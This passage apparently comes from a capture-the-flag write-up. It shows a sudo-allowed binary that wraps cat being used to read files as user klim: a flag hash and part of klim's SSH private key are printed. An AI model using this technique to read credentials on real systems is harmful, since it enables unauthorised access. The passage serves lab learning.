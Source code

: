     User www-data may run the following commands on klim:

    Sudoers entry:
        RunAsUsers: klim
        Options: !authenticate
        Commands:
            /home/klim/tool

The user **'www-data'** can run the binary on the ***/home/klim directory*** as the user **'klim'**. Let's see what is does and how we can exploit it.

    www-data@klim:/home/klim$ ./tool
    Segmentation fault

Let's give it a parameter.

    www-data@klim:/home/klim$ ./tool test
    cat: test: No such file or directory

We know the ***cat*** command is used here. We can confirm this again by using the strings command.

![image](https://user-images.githubusercontent.com/76552238/182038193-dbcd3607-ccdd-4133-8244-235fd44e084f.png)

Changing the PATH environment variable will not work because using sudo we are running the command as the user klim and we can't change his PATH variable.

Since the binary uses the cat command and we run it as the user klim we can read files out of our permissions.

    www-data@klim:/home/klim$ sudo -u klim ./tool user.txt
    2fbef74059deaea1e5e11cff5a65b68e

Let's read the private key of the user klim and connect over ssh.

    www-data@klim:/home/klim$ ls -la
    ls -la
    total 52
    drwxr-xr-x 4 klim klim  4096 Jul 25  2021 .
    drwxr-xr-x 3 root root  4096 Jul  4  2021 ..
    lrwxrwxrwx 1 root root     9 Jul 24  2021 .bash_history -> /dev/null
    -rw-r--r-- 1 klim klim   220 Jul  4  2021 .bash_logout
    -rw-r--r-- 1 klim klim  3526 Jul  4  2021 .bashrc
    drwx------ 3 klim klim  4096 Jul 24  2021 .gnupg
    -rw-r--r-- 1 klim klim   807 Jul  4  2021 .profile
    drwx------ 2 klim klim  4096 Jul 24  2021 .ssh
    -rwxr-xr-x 1 klim klim 16816 Jul 24  2021 tool
    -rwx------ 1 klim klim    33 Jul 25  2021 user.txt

    www-data@klim:/home/klim$ sudo -u klim ./tool .ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEA0IBOKXuvWzdN/rTJXWZ7b1FadoLr5jQZ+LkaEJDWaUnYFlCpNd4e
    zX0FclbdzkUAmQJK7KHBMpc5sfWnie6SNqg90fjLeh/hRkwkvrlYyyo9ixLmmEOEekRUt5
    2ClZQ3Em0DLcwqyFh5i0bShVCe+w9ytRLdMY4atFLxPumBAR7FEjE7BNZklDf3ru2Ha2AQ
    j3msaDz2rngO94CCqy2hqPnwTkZFvlenTgodG4MTHVPM77/41hWHhZQzRQNnNuuvbp/70Q
    2exig9djEY7Nuc4YtR2dK98z72jIpRRJioDR237r5z8nlSlMnYC7GD7ZKUbpp+I4GJ6Y0J
    TBvep0Z2iwAAA8BRETJcUREyXAAAAAdzc2gtcnNhAAABAQDQgE4pe69bN03+tMldZntvUV
    p2guvmNBn4uRoQkNZpSdgWUKk13h7NfQVyVt3ORQCZAkrsocEylzmx9aeJ7pI2qD3R+Mt6
    H+FGTCS+uVjLKj2LEuaYQ4R6RFS3nYKVlDcSbQMtzCrIWHmLRtKFUJ77D3K1Et0xjhq0Uv
    E+6YEBHsUSMTsE1mSUN/eu7YdrYBCPeaxoPPaueA73gIKrLaGo+fBORkW+V6dOCh0bgxMd
    U8zvv/jWFYeFlDNFA2c2669un/vRDZ7GKD12MRjs25zhi1HZ0r3zPvaMilFEmKgNHbfuvn
    PyeVKUydgLsYPtkpRumn4jgYnpjQlMG96nRnaLAAAAAwEAAQAAAQEAwnlqbjb3cNU84n4t
    8/hK2aHABxpGfgnKz7uXHCx8UOiXrPi/W4c6o+Ag3G05pdOmoxEIYX7efRmgruS6yGTF7E
    UwpFCzOc3SiYcsHtkygQ19KeMPQqZ3QrPJcRpxWqNMWttjQ6xTm1sqw0XjxoVUREg8bbiS
    qE4rilZyvoN92FPzfAHvyiV+CDb60ML476veN+C9bK06lr4AeAICG50FMfHpeSKAE12MAL
    OMz4DC8mP787yybBzSIUGbdBfxh+0Qm8+eJ+6CdPTywtGfzgdwp87uNrx4dvAiVrIMTTsb
    Dpc4CBhBbMwIC2bnOFvOBhvv70qYG/dGUVXQEYZYZQ5KQQAAAIEA2QFHUPDXAE7vaIIkLo
    TGTEgAwVCtdMQiqxbyrmfwqDg0Q7UCgCxThrybFLWbWkn76n4NpQdI5O25cZGtsdgkYXCc
    yUpWVxWkgBcvr3z2LLEvl6+a/JwNgobp40lZTumrFFUbEFBFczpq38NjoRWfznfneFX2OR